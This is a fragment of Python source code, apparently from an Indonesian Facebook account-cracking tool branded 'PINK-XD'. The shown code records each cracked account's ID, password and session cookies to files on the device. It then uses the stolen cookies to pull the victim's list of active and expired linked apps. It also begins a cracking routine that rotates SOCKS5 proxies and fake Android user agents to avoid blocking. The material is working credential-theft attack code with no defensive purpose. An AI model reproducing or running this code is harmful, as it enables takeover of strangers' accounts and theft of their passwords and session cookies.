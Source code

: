 				headapp={"user-agent":"SupportsFresco=1 Dalvik/2.1.0 (Linux; U; Android 6.0.1; SM-J210F Build/MMB29Q) Source/1 [FBAN/EMA;UNITY_PACKAGE/342;FBBV/107586706;FBAV/172.0.0.8.182;FBDV/SM-J210F;FBLC/id_ID;FBOP/20]"}
				if 'no' in taplikasi:
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('/sdcard/4MBF-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
					print('\n')
					statusok = f'[â€¢] ID       : {idf}\n[â€¢] PASSWORD : {pw}\n[â€¢] COOKIES  : {kuki}'
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='PINK-XD OK'))
					ok+=1
					break
				elif 'ya' in taplikasi:
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('/sdcard/PINK-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
					user=idf
					infoakun = ""
					session = requests.Session()
					cek2 = session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies=coki,headers=headapp).text
					cek =session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies=coki,headers=headapp).text
					infoakun += (f"\n[bold cyan][â€¢] LIST ACTIVE APPLICATIONS :[/bold cyan] \n")
					apkaktif=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek))
					nok=1
					for muncul in apkaktif:
						infoakun+= (f"[bold cyan][{nok}] {muncul[0]} {muncul[1]}[/bold cyan]\n")
						nok+=1

					hit=0
					infoakun += (f"\n[bold yellow][â€¢] LIST EXPIRED APPLICATIONS :[/bold yellow]\n")
					apkexp=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek2))
					hit=0
					for muncul in apkexp:
						hit+=1
						infoakun += (f"[bold yellow][{hit}] {muncul[0]} {muncul[1]}[/bold yellow]\n")
					print('\n')
					statusok = f'[bold green][â€¢] ID       : {idf}\n[â€¢] PASSWORD : {pw}\n[â€¢] COOKIES  : {kuki}[/bold green]\n{infoakun}'
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='[bold green]PINK-XD OK[/bold green]'))
					ok+=1
					break


			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
#----------------------[ METHODE-MTOUCH+MOBILE-4 ]-----------------#
def crackmbasic(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	nip=random.choice(prox)
	proxs= {'http': 'socks5://'+nip}
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()